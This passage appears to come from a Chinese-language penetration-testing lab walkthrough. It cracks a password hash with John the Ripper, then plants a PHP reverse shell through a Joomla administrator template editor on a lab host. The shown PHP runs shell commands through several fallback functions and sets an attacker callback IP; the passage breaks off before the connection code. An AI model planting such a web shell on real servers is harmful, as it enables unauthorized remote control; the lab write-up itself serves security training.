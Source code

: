 利用 John工具，对该密码进行爆破拆解。先在桌面创建一个文件，将上面的hash密码复制进去并保存，接着使用 john 对该文件内容进行爆破。

![20.png](https://s2.loli.net/2024/07/22/6TUOaXpMCRwNb5K.png)

![21.png](https://s2.loli.net/2024/07/22/UXmz5IfTHqdF1aD.png)

![22.png](https://s2.loli.net/2024/07/22/Q2CcAlw3RtKh4pW.png)

![23.png](https://s2.loli.net/2024/07/22/VcNpgJuoY65Pi4X.png)

##### ③反弹shell

探索后台管理员系统，发现了文件上传的点位，在beez3模块里。URL如下：

```
http://192.168.253.138/administrator/index.php?option=com_templates&view=template&id=503
```

![24.png](https://s2.loli.net/2024/07/22/qRy1IAscLnaCo6k.png)

![25.png](https://s2.loli.net/2024/07/22/5bwG4Wpa8V7SFi6.png)

```php
#PHP反弹shell代码
<?php
function which($pr) {
	$path = execute("which $pr");
	return ($path ? $path : $pr);
	}
function execute($cfe) {
	$res = '';
	if ($cfe) {
		if(function_exists('exec')) {
			@exec($cfe,$res);
			$res = join("\n",$res);
			} 
			elseif(function_exists('shell_exec')) {
			$res = @shell_exec($cfe);
			} elseif(function_exists('system')) {
@ob_start();
@system($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(function_exists('passthru')) {
@ob_start();
@passthru($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(@is_resource($f = @popen($cfe,"r"))) {
$res = '';
while(!@feof($f)) {
$res .= @fread($f,1024);
}
@pclose($f);
}
}
return $res;
}
function cf($fname,$text){
if($fp=@fopen($fname,'w')) {
@fputs($fp,@base64_decode($text));
@fclose($fp);
}
}
$yourip = "192.168.253.135";		#注意是kali的ip
```